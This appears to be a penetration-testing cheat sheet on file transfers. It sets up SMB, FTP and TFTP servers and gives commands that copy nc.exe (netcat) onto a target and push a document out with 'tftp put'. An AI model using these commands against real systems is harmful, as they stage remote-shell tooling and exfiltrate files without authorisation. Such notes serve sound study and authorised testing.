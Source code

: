 # File Transfers
## SMB Server
-> Setting
```
impacket-smbserver share . -smb2support -user user -password teste321
```
-> Transfer
```
net use \\<smbserver>\share /USER:user teste321
copy \\<smbserver>\share\nc.exe .
```

## Pure-FTPd
-> Install and Configure
```
sudo apt update && sudo apt install pure-ftpd
sudo groupadd ftpgroup
sudo useradd -g ftpgroup -d /dev/null -s /etc ftpuser
sudo pure-pw useradd offsec -u ftpuser -d /ftphome
sudo pure-pw mkdb
cd /etc/pure-ftpd/auth/
sudo ln -s ../conf/PureDB 60pdb
sudo mkdir -p /ftphome
sudo chown -R ftpuser:ftpgroup /ftphome/
sudo systemctl restart pure-ftpd
```

-> Transfer
```
echo open 192.168.0.20 21> ftp.txt
echo USER user>> ftp.txt
echo password>> ftp.txt
echo bin >> ftp.txt
echo GET nc.exe >> ftp.txt
echo bye >> ftp.txt
```
```
ftp -v -n -s:ftp.txt
```

## tftp
-> Install and Configure
```
sudo apt update && sudo apt install atftp
sudo mkdir /tftp
sudo chown nobody: /tftp
sudo atftpd --daemon --port 69 /tftp
```
-> Action
```
tftp -i <IP> put ok.docx
```
